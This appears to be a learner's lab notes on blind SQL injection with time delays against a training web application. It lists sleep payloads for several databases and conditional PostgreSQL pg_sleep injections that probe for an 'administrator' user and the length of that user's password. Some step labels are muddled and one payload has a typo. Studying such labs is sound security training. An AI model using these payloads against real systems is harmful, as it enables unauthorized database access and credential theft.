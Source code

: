 kaao4uf47cl9e6t8n5fn

------


## 14. Lab: Blind SQL injection with time delays


![](assets/Pasted%20image%2020251015194322.png)

---

## 15. Blind SQL injection with time delays and information retrieval


1. Try `'` and Send this not get any error
2. add `' or '1'='1-- -` the response got 200 OK no show to me any error.
3. Now you can try with `SLEEP` But i do not know the Type or version for the database now i can try:  {All these not works }
	1. if it Oracle  `dbms_pipe.receive_message(('a'),10)`
	2. if it Microsoft `WAITFOR DELAY '0:0:10'`
	3. if it PostgreSQL `SELECT pg_sleep(10)`
	4. if it MySQL `SELECT SLEEP(10)`
	
4. Now you can try the conditional error for the every database: {And This work}
	1. Oracle :  `SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN TO_CHAR(1/0) ELSE NULL END FROM dual`
	2. you can use `';BSELECT CASE WHEN (1=1) THEN pg_sleep(10) ELSE pg_sleep(0) END--`
5. Now we want to know if this database content the table equal `users` or not:
	1. `';SELECT CASE WHEN (username='administrator') THEN pg_sleep(10) ELSE+pg_sleep(0) END FROM users--`
6. Now we want to know if the length of password bigger than 1
	1. `';SELECT CASE WHEN (username='administrator' AND LENGTH(password)>1) THEN pg_sleep(10) ELSE pg_sleep(0) END FROM users--`
